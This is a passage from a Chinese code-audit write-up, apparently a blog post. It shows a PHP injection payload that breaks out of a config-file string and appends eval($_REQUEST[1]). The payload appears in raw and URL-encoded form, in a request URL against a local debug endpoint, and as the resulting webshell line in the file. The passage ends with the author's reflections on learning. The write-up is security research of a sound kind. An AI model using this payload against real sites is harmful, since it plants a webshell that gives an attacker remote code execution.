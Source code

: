 
## 原来竟然如此简单？
1、因为前面命令执行可以使用符号进行连接，我想着在代码中也试试，看看能不能直接执行一句话木马（测试了｜、｜｜、&、&&，只有&和&&的时候可以执行）
同样先进行url编码
```php
123']&&eval($_REQUEST[1]);//
#url编码
123%27%5D%26%26eval(%24_REQUEST%5B1%5D)%3B%2F%2F
```
```php
http://127.0.0.1/index.php/admin-api-debug.html?id=123%27%5D%26%26eval(%24_REQUEST%5B1%5D)%3B%2F%2F
```
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974884495-55623576-d417-48df-b872-bf0ba605d607.png#align=left&display=inline&height=248&margin=%5Bobject%2Object%5D&name=image.png&originHeight=496&originWidth=1940&size=47452&status=done&style=none&width=970)
在文件中是这样的
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974919229-adbc9a6d-0ff1-4971-96e4-a0a08b7064a5.png#align=left&display=inline&height=123&margin=%5Bobject%2Object%5D&name=image.png&originHeight=246&originWidth=1288&size=19624&status=done&style=none&width=644)
```php
<?php return ['name'=>'123']&&eval($_REQUEST[1]);//',]; 
```
尝试访问，成功执行代码
![image.png](https://cdn.nlark.com/yuque/0/2021/png/12366538/1627974971491-f1514597-7cb7-43ac-a727-8c191adf1d0e.png#align=left&display=inline&height=497&margin=%5Bobject%2Object%5D&name=image.png&originHeight=994&originWidth=2474&size=252996&status=done&style=none&width=1237)
居然就这样就可以了……
# 0x06 总结
本次代码审计发现漏洞很快，但是利用起来整了我2天，还是在师傅们的帮助下完成的深入利用。忽然发现自己对于编程语言的基础还很不扎实，一些简单处理的地方居然思考了那么久，在之前发现漏洞的情况下，一般都是可以直接利用了，此次bypass的时候发现了很多不足。在以后的代码审计中，简单利用的漏洞只会越来越少，我还需要多深入学习代码知识，才能从一些过滤薄弱点出发，发现漏洞。嗯嗯，总结一句话，不论是学什么东西，基础很重要很重要！
